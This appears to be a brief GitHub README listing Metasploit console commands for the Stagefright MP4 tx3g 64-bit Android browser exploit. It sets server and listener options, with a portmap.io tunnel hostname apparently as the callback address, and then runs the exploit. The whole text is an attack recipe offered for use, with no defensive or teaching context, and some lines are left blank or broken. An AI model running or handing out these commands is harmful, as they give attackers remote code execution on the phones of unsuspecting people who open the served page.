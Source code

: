# Metasploit-Mobile-Model-Name
          Stagefright commond


use exploit/android/browser/stagefright_mp4_tx3g_64bit

set SRVHOST

set LHOST

lalratan519-32111.portmap.io

set URIPATH /

set VERBOSE true

exploit
